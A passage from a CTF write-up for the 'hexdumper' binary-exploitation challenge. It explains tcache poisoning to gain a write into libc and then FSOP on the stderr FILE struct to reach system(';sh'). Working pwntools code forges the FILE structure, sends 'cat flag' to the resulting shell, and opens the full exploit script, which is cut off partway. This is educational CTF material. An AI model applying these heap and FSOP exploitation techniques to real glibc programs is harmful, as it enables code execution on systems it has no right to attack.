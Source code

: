 Finally, we do the poisoning to get an almost arbitrary write on libc.
To get code execution with it [this is a good resource](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc)
, though it is somewhat outdated. From experience I can say that the libc's GOT table
is now [FULL RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) and dtor_list is no longer
close to PTR_MANGLE cookie. Though FSOP still works like a charm and nothing suggests that anything will change.
I use a payload I've seen only ptr-yudai use in their's write-ups, but it's the best one I've seen.
```python
    # Poison tcache pointer to point to the stderr FILE struct.
    change_bytes(io, c, 0x20, p64(((libc.sym['_IO_2_1_stderr_']) ^ (xor_key))))
    x = create_dump(io, 0xf0-8)
    # Malloc returned a pointer inside of libc, with which we will do FSOP.
    target = create_dump(io, 0xf0-8)

    # Payload I have stolen from ptr-yudai.
    file = FileStructure(0)
    file.flags = u64(p32(0xfbad0101) + b";sh\0")
    file._IO_save_end = libc.sym["system"]
    file._lock = libc.sym["_IO_2_1_stderr_"] - 0x10
    file._wide_data = libc.sym["_IO_2_1_stderr_"] - 0x10
    file._offset = 0
    file._old_offset = 0
    file.unknown2 = b"\x00"*24+ p32(1) + p32(0) + p64(0) + \
        p64(libc.sym["_IO_2_1_stderr_"] - 0x10) + \
        p64(libc.sym["_IO_wfile_jumps"] + 0x18 - 0x58)
    change_bytes(io, target, 0, bytes(file))

    io.sendline(b"cat flag")
    io.sendline(b"cat flag")

    io.recvuntil(b"BtSCTF")
    io.intearactive()
```

This is how the full exploit looks like:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hexdumper_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal = "alacritty -e".split()


def conn():
    if args.LOCAL:
        if args.GDB:
            io = gdb.debug([exe.path], aslr=False, api=False, gdbscript="""
            set follow-fork-mode parent
            """)
        else:
            io = process([exe.path])
            #gdb.attach(io)
    else:
        io = remote("127.0.0.1", 1337)
    return io


def create_dump(io, size):
```